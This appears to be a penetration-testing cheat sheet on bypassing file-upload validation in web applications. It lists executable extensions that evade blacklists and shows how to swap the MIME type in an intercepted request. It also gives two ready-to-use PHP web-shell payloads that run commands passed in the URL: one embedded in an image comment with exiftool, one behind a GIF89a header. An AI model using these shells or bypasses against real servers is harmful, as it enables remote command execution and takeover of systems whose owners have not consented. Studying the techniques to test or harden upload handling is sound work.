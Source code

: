 # File upload bypass
File upload mechanisms are very common on websites, but sometimes have poor validation. This allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. This can also happen in authenticated areas of a website (e.g. installing WordPress plugins)

## File extension
Developers may blacklist specific file extensions and prevent users from uploading files with extensions that are considered dangerous. This can be bypassed by using alternate extensions or even unrelated ones. For example, it might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg`.

### Alternate extensions
Type | Extension
---- | ---------
php | phtml, .php, .php3, .php4, .php5, and .inc
asp | asp, .aspx
perl | .pl, .pm, .cgi, .lib
jsp | .jsp, .jspx, .jsw, .jsv, and .jspf
Coldfusion | .cfm, .cfml, .cfc, .dbm

## MIME type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```

## PHP getimagesize() 
For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`.

You can do this with gimp or exiftools:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
I'm not sure why some tutorials have the php extension first while others have it second. Try both.

## GIF89a; header
GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

```
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```
## Further reading
* [Injecting malicious PHP into an image file](http://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html)
